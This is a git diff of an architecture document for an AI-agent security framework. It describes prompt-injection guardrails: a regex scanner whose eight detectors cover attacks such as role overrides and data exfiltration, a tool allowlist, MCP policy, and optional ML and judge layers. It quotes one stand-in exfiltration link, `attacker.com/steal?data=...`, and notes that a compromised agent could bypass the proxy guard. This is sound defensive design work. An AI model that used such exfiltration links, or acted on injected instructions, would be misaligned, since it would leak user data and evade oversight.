

Before and after one commit to geoffbelknap/ask, a Markdown page: ARCHITECTURE.md, 2 parts joined by grey strips. Shown at 89% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/ARCHITECTURE.md
+++ b/ARCHITECTURE.md
@@ -390,12 +412,12 @@ MCP servers are child processes that communicate via JSON-RPC 2.0 over stdio. Th
 The agent's workspace needs tools (runtime binaries, shell shims, skill libraries), but these tools must be delivered read-only — the agent cannot modify its own tooling. The pattern: build tools into a container image, then extract them into a named volume that is mounted read-only into the agent's workspace.
 
 ```
-Builder image (e.g., openclaw-builder)
-  → docker create → copy /opt/openclaw to named volume
-  → named volume mounted :ro into agent workspace at /opt/openclaw
+Builder image (agent runtime)
+  → docker create → copy runtime binaries to named volume
+  → named volume mounted :ro into agent workspace
 
-Builder image (e.g., agentsh-shim-builder)
-  → docker create → copy /opt/shim to named volume
+Builder image (shell shim)
+  → docker create → copy shim binary to named volume
   → named volume mounted :ro into agent workspace at /usr/local/bin
 ```
 
@@ -411,9 +433,9 @@ Guardrails scan content at two points: **pre_call** (scanning input before it re
 
 The reference implementation (Agency) ships three guardrail mechanisms that require no external services or commercial accounts:
 
-**XPIA Pattern Scanner** (regex-based, pre_call + post_call). Eight pattern detectors covering direct injection phrases, HTML comment injection, markdown image exfiltration, fetch/XHR exfiltration, role override attempts, base64-encoded instruction payloads, DNS-style data encoding in URLs, and PII patterns (SSNs). Runs as a custom LiteLLM guardrail on pre_call, and as a streaming response scanner in the enforcer sidecar on post_call. Zero external dependencies, zero cost, sub-millisecond latency.
+**XPIA Pattern Scanner** (regex-based, pre_call + post_call). Eight pattern detectors covering direct injection phrases, HTML comment injection, markdown image exfiltration, fetch/XHR exfiltration, role override attempts, base64-encoded instruction payloads, DNS-style data encoding in URLs, and PII patterns (SSNs). Runs as an LLM proxy guardrail on pre_call, and as a streaming response scanner in the enforcer sidecar on post_call. Zero external dependencies, zero cost, sub-millisecond latency.
 
-**Tool Permission Guard** (LLM tool call allowlist). Enforces a whitelist of which tools the agent is allowed to call, and can restrict tool arguments to pre-approved regex patterns. If XPIA convinces the LLM to call an unauthorized tool, the proxy blocks it. Default configuration is deny-all. Built into LiteLLM.
+**Tool Permission Guard** (LLM tool call allowlist). Enforces a whitelist of which tools the agent is allowed to call, and can restrict tool arguments to pre-approved regex patterns. If XPIA convinces the LLM to call an unauthorized tool, the proxy blocks it. Default configuration is deny-all. Built into the LLM proxy.
 
 **Gateway MCP Tool Policy** (MCP server/tool allowlist). Enforces per-server, per-tool allowlists on MCP tool calls at the OS level (sidecar container). Where the tool permission guard mediates tool calls in LLM responses at the proxy layer, the MCP policy mediates MCP tool calls between the agent process and MCP server subprocesses. A compromised agent could invoke MCP tools without going through the LLM at all, bypassing the proxy-level guard entirely. The gateway catches this. Built into the gateway sidecar.
 
@@ -424,7 +446,7 @@ Input (user message, tool output, web content)
   ├─► [pre_call]  XPIA Pattern Scanner    → regex detection (8 attack vectors)
   ├─► [pre_call]  (optional layers)       → ML detection, PII masking, URL scanning
   ▼
-LLM Call (provider API via LiteLLM)
+LLM Call (provider API via LLM proxy)
   ├─► [post_call] XPIA Pattern Scanner    → streaming response scanning (enforcer)
   ├─► [post_call] Tool Permission Guard   → validate tool calls are authorized
   ├─► [post_call] (optional layers)       → ML detection, PII masking, URL scanning
@@ -435,19 +457,19 @@ Response returned to agent
 
 ### Optional Layers
 
-The architecture supports additional guardrail layers via LiteLLM's callback system. These are not shipped with the reference implementation but can be added to any deployment:
+The architecture supports additional guardrail layers via the LLM proxy's callback system. These are not shipped with the reference implementation but can be added to any deployment:
 
-**ML-based XPIA detection** (e.g., Gray Swan Cygnal). ML models that differentiate direct injection from indirect prompt injection in tool outputs. Returns confidence scores rather than binary pattern matches. Catches sophisticated attacks that evade regex. *Commercial.*
+**ML-based XPIA detection.** ML models that differentiate direct injection from indirect prompt injection in tool outputs. Returns confidence scores rather than binary pattern matches. Catches sophisticated attacks that evade regex.
 
-**Malicious URL/domain scanning** (e.g., Pangea AI Guard). Detects malicious URLs in responses before they reach the agent — critical for catching XPIA exfiltration via rendered markdown images (`![](https://attacker.com/steal?data=...)`). *Commercial (free tier available).*
+**Malicious URL/domain scanning.** Detects malicious URLs in responses before they reach the agent — critical for catching XPIA exfiltration via rendered markdown images (`![](https://attacker.com/steal?data=...)`).
 
-**PII masking** (e.g., Microsoft Presidio). NLP-based detection and masking of personally identifiable information. Pre_call masks PII before the LLM sees it. Post_call masks PII the LLM generated. Runs locally, no external API calls. *Free, open source.*
+**PII masking.** NLP-based detection and masking of personally identifiable information. Pre_call masks PII before the LLM sees it. Post_call masks PII the LLM generated. Can run locally with no external API calls.
 
-**LLM-as-judge injection detection.** Uses a small model to classify whether content contains injection attempts. Higher accuracy than regex, lower cost than commercial ML. *Free (fractions of a cent per call).*
+**LLM-as-judge injection detection.** Uses a small model to classify whether content contains injection attempts. Higher accuracy than regex, lower cost than commercial ML.
 
 ### Defense Posture
 
-The shipped guardrails (XPIA patterns + tool permission + MCP policy) catch known attack patterns at zero cost with zero external dependencies. They work in fully network-isolated environments. Adding ML-based layers (Cygnal, Pangea) extends coverage to novel attack patterns that evade regex — but requires external service access and commercial accounts. The architecture is designed so that layers stack independently: adding or removing a layer doesn't affect the others.
+The shipped guardrails (XPIA patterns + tool permission + MCP policy) catch known attack patterns at zero cost with zero external dependencies. They work in fully network-isolated environments. Adding ML-based layers extends coverage to novel attack patterns that evade regex — but may require external service access or commercial accounts. The architecture is designed so that layers stack independently: adding or removing a layer doesn't affect the others.
 
 ---
 
````
Also changed, not shown: other parts of ARCHITECTURE.md (+36 -34 lines), reference/Glossary.md (+1 -1 lines), reference/Limitations.md (+1 -1 lines).
